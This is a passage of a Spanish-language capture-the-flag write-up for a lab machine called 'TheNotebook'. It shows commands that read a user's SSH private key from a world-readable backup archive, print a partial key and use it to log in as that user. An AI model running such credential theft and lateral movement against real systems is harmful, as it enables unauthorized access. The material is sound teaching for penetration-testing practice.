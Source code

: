 ### Análisis de backups

Dada la nota sobre copias de seguridad, revisaré `/var/backups`:

```bash
www-data@thenotebook:/var/backups$ ls -l
total 52
-rw-r--r-- 1 root root 33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r-- 1 root root  3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r-- 1 root root  3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r-- 1 root root  4373 Feb 17 09:02 home.tar.gz
```

Todos estos son propiedad de root, pero legibles para todos. `home.tar.gz` podría ser interesante. Enumeremos los archivos dentro:

```bash
www-data@thenotebook:/var/backups$ tar -tvf home.tar.gz
drwxr-xr-x root/root         0 2021-02-12 06:24 home/
drwxr-xr-x noah/noah         0 2021-02-17 09:02 home/noah/
-rw-r--r-- noah/noah       220 2018-04-04 18:30 home/noah/.bash_logout
drwx------ noah/noah         0 2021-02-16 10:47 home/noah/.cache/
-rw-r--r-- noah/noah         0 2021-02-16 10:47 home/noah/.cache/motd.legal-displayed
drwx------ noah/noah         0 2021-02-12 06:25 home/noah/.gnupg/
drwx------ noah/noah         0 2021-02-12 06:25 home/noah/.gnupg/private-keys-v1.d/
-rw-r--r-- noah/noah      3771 2018-04-04 18:30 home/noah/.bashrc
-rw-r--r-- noah/noah       807 2018-04-04 18:30 home/noah/.profile
drwx------ noah/noah         0 2021-02-17 08:59 home/noah/.ssh/
-rw------- noah/noah      1679 2021-02-17 08:59 home/noah/.ssh/id_rsa
-rw-r--r-- noah/noah       398 2021-02-17 08:59 home/noah/.ssh/authorized_keys
-rw-r--r-- noah/noah       398 2021-02-17 08:59 home/noah/.ssh/id_rsa.pub
```

Parece ser el directorio personal de Noah y hay una clave privada en `.ssh`. Leeré la clave del archivo (sin extraerla primero al disco para no ensuciar):

```bash
www-data@thenotebook:/var/backups$ tar xf home.tar.gz -O home/noah/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
...[snip]...
Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
-----END RSA PRIVATE KEY-----
```

### Acceso SSH como Noah

```bash
ssh -i ~/keys/thenotebook_noah noah@10.10.10.230
```

La clave funciona para noah. Buscamos la flag y la podemos leer.

### Análisis de permisos sudo
